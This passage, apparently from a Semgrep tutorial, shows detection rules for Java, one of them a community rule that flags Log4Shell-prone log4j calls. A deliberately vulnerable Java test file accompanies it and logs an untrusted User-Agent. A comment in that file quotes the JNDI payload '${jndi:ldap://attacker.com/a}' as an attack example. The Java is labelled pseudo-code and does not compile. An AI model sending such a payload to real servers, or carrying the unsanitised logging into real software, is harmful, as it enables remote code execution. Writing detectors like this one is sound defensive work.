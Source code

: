 Rule:
```yaml
rules:
- id: throw-exception-example
  pattern: |
       throw new example.ExampleException(...);
  message: Throwing an ExampleException
  languages: [java]
  severity: ERROR
```

Now, if you run this rule with DeepSemgrep, both thrown exceptions displayed above are matched!

### Using class inheritance with typed metavariables

The class is not always in the same line you want to match. That’s why Semgrep implemented [typed metavariables](https://semgrep.dev/docs/writing-rules/pattern-syntax/#typed-metavariables) in several languages. The following rule has been written by the Semgrep community to check for vulnerability to the log4j exploit, Log4Shell.

Rule:
```yaml
rules:
- id: log4j2_tainted_argument
 patterns:
   - pattern-either:
     - pattern: (Logger $LOGGER).$METHOD($ARG);
     - pattern: (Logger $LOGGER).$METHOD($ARG,...);
   - pattern-inside: |
       import org.apache.log4j.$PKG;
       ...
   - pattern-not: (Logger $LOGGER).$METHOD("...");
 message: log4j $LOGGER.$METHOD tainted argument
 languages: [java]
 severity: WARNING
```

File:
```java
import org.apache.log4j.Logger;
import org.apache.log4j.LogManager;
import java.io.*;
import java.sql.SQLException;
import java.util.*;
 
 static Logger log;
  log = LogManager.getLogger(log4jExample.class.getName());
 
public class VulnerableLog4jExampleHandler implements HttpHandler {
 
 
 /**
  * A simple HTTP endpoint that reads the request's User Agent and logs it back.
  * This is pseudo-code to explain the vulnerability, and not a full example.
  * @param he HTTP Request Object
  */
 public void handle(HttpExchange he) throws IOException {
   string userAgent = he.getRequestHeader("user-agent");
   // ruleid: log4j2_tainted_argument
   log.info("Request User Agent:" + "" + userAgent);
   log.info("Request User Agent:" + "");
   // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
   // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
   // ruleid: log4j2_tainted_argument
   log.info("Request User Agent:" + userAgent);
 
```